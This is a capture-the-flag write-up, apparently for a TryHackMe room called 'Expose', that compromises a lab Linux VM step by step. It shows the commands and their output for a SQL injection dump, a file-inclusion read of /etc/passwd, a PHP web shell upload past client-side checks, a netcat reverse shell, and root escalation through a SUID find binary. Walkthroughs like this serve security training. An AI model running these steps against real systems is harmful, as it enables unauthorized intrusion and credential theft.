










# Expose

Use your red teaming knowledge to pwn a Linux machine.

## Description

This challenge is an initial test to evaluate your capabilities in red teaming skills. Start the VM by clicking the Start Machine button at the top right of the task. You will find all the necessary tools to complete the challenge, like Nmap, sqlmap, wordlists, PHP shell, and many more in the AttackBox.

Exposing unnecessary services in a machine can be dangerous. Can you capture the flags and pwn the machine?

## Challenges

1. What is the user flag?

`nmap -sV -sC -T4 10.10.224.144 -p-`

```
Starting Nmap 7.60 ( https://nmap.org ) at 2024-06-01 03:19 BST
Nmap scan report for ip-10-10-224-144.eu-west-1.compute.internal (10.10.224.144)
Host is up (0.00062s latency).
Not shown: 65530 closed ports
PORT     STATE SERVICE                 VERSION
21/tcp   open  ftp                     vsftpd 2.0.8 or later
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.53.149
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh                     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
53/tcp   open  domain                  ISC BIND 9.16.1-Ubuntu
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
1337/tcp open  http                    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: EXPOSED
1883/tcp open  mosquitto version 1.6.9
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     $SYS/broker/load/bytes/sent/15min: 0.27
|     $SYS/broker/load/messages/received/1min: 0.91
|     $SYS/broker/messages/sent: 1
|     $SYS/broker/bytes/sent: 4
|     $SYS/broker/load/bytes/received/1min: 16.45
|     $SYS/broker/load/sockets/15min: 0.07
|     $SYS/broker/load/sockets/1min: 0.91
|     $SYS/broker/load/messages/received/15min: 0.07
|     $SYS/broker/bytes/received: 18
|     $SYS/broker/messages/received: 1
|     $SYS/broker/load/bytes/sent/1min: 3.65
|     $SYS/broker/uptime: 1507 seconds
|     $SYS/broker/store/messages/bytes: 180
|     $SYS/broker/version: mosquitto version 1.6.9
|     $SYS/broker/load/sockets/5min: 0.20
|     $SYS/broker/load/connections/15min: 0.07
|     $SYS/broker/heap/maximum: 49688
|     $SYS/broker/load/messages/sent/5min: 0.20
|     $SYS/broker/load/messages/sent/15min: 0.07
|     $SYS/broker/load/messages/sent/1min: 0.91
|     $SYS/broker/load/messages/received/5min: 0.20
|     $SYS/broker/load/bytes/sent/5min: 0.79
|     $SYS/broker/load/bytes/received/15min: 1.19
|     $SYS/broker/load/bytes/received/5min: 3.53
|     $SYS/broker/load/connections/1min: 0.91
|_    $SYS/broker/load/connections/5min: 0.20
```

Check `http://10.10.224.144:1337/` 



Let's enumerate directories

`gobuster dir -u http://10.10.224.144:1337/ -w /usr/share/wordlists/dirb/big.txt`

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.224.144:1337/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/06/01 03:50:19 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/admin (Status: 301)
/admin_101 (Status: 301)
/javascript (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
===============================================================
2024/06/01 03:50:21 Finished
===============================================================
```

Check /admin_101



Intercept login request and save it to file



Check it by sqlmap

`sqlmap -r expose.req --dump`

```
...
Database: expose
Table: config
[2 entries]
+----+------------------------------+-----------------------------------------------------+
| id | url                          | password                                            |
+----+------------------------------+-----------------------------------------------------+
| 1  | /file1010111/index.php       | 69c66901194a6486176e81f5945b8929                    |
| 3  | /upload-cv00101011/index.php | // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z |
+----+------------------------------+-----------------------------------------------------+
...
Database: expose
Table: user
[4 entries]
+--------------------------------------+--------------------------------------+--------------------------------------+--------------------------------------+
| id                                   | email                                | created                              | password                             |
+--------------------------------------+--------------------------------------+--------------------------------------+--------------------------------------+
| 2023-02-21 09:05:46                  | 2023-02-21 09:05:46                  | 2023-02-21 09:05:46                  | 2023-02-21 09:05:46                  |
| hacker@root.thm                      | hacker@root.thm                      | hacker@root.thm                      | hacker@root.thm                      |
| 1                                    | 1                                    | 1                                    | 1                                    |
| VeryDifficultPassword!!#@#@!#!@#1231 | VeryDifficultPassword!!#@#@!#!@#1231 | VeryDifficultPassword!!#@#@!#!@#1231 | VeryDifficultPassword!!#@#@!#!@#1231 |
+--------------------------------------+--------------------------------------+--------------------------------------+--------------------------------------+
```

Login by founded password - nothing



Check source - nothing

We have a hint from expose.config table - /file1010111/index.php. Let's check it



We need password.



Another hint



Let's check - http://10.10.224.144:1337/file1010111/index.php?file=/etc/passwd

Luck!



We've found user - `zeamkish` and we've hint at expose.config table  `/upload-cv00101011/index.php | // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z`

Let's check it. We can login with this user and have possibility to upload files. Let's check uploading shell



Frontend has validate extensions...

But not well :)

```
function validate(){

 var fileInput = document.getElementById('file');
  var file = fileInput.files[0];
  
  if (file) {
    var fileName = file.name;
    var fileExtension = fileName.split('.').pop().toLowerCase();
    
    if (fileExtension === 'jpg' || fileExtension === 'png') {
      // Valid file extension, proceed with file upload
      // You can submit the form or perform further processing here
      console.log('File uploaded successfully');
	  return true;
    } else {
      // Invalid file extension, display an error message or take appropriate action
      console.log('Only JPG and PNG files are allowed');
	  return false;
    }
  }
}
```

Rename our shell to `shell.png` -> enable Burp -> Intercept Uploading request and change name from shell.png to shell.php



Check `http://10.10.224.144:1337/upload-cv00101011/upload_thm_1001/` we have upload shell.

`nc -lvnp 1234` and go to `http://10.10.224.144:1337/upload-cv00101011/upload_thm_1001/shell.php`

```
nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.224.144 55876 received!
Linux ip-10-10-224-144 5.15.0-1039-aws #44~20.04.1-Ubuntu SMP Thu Jun 22 12:21:12 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 03:21:55 up  1:05,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ cd /home	
$ ls
ubuntu
zeamkish
$ sudo -l
sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper
$ cd zeamkish
$ ls
flag.txt
ssh_creds.txt
$ cat flag.txt
cat: flag.txt: Permission denied
$ cat ssh_creds.txt
SSH CREDS
zeamkish
[REDACTED]
```

`ssh zeamkish@10.10.224.144`

```
zeamkish@10.10.224.144's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-1039-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jun  1 03:24:08 UTC 2024

  System load:  0.13              Processes:             127
  Usage of /:   7.3% of 58.09GB   Users logged in:       0
  Memory usage: 17%               IPv4 address for eth0: 10.10.224.144
  Swap usage:   0%

 * Ubuntu Pro delivers the most comprehensive open source security and
   compliance features.

   https://ubuntu.com/aws/pro

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sun Jul  2 17:27:46 2023 from 10.10.83.109
zeamkish@ip-10-10-224-144:~$ ls
flag.txt  ssh_creds.txt
zeamkish@ip-10-10-224-144:~$ cat flag.txt
```

2. What is the root flag?

```
zeamkish@ip-10-10-224-144:~$ sudo -l
[sudo] password for zeamkish: 
Sorry, user zeamkish may not run sudo on ip-10-10-224-144.
zeamkish@ip-10-10-224-144:~$ find / -user root -perm -4000 -print 2>/dev/null
...
/usr/bin/nano
/usr/bin/su
/usr/bin/fusermount
/usr/bin/find
/usr/bin/mount
zeamkish@ip-10-10-224-144:~$ /usr/bin/find . -exec /bin/sh -p \; -quit
# whoami
root
# cd ..
# cd ..
# ls
'"'    boot   etc    lib     lib64    lost+found   mnt	 proc   run    snap   sys   usr
 bin   dev    home   lib32   libx32   media	   opt	 root   sbin   srv    tmp   var
# cd root
# ls
flag.txt  snap
# cat flag.txt
```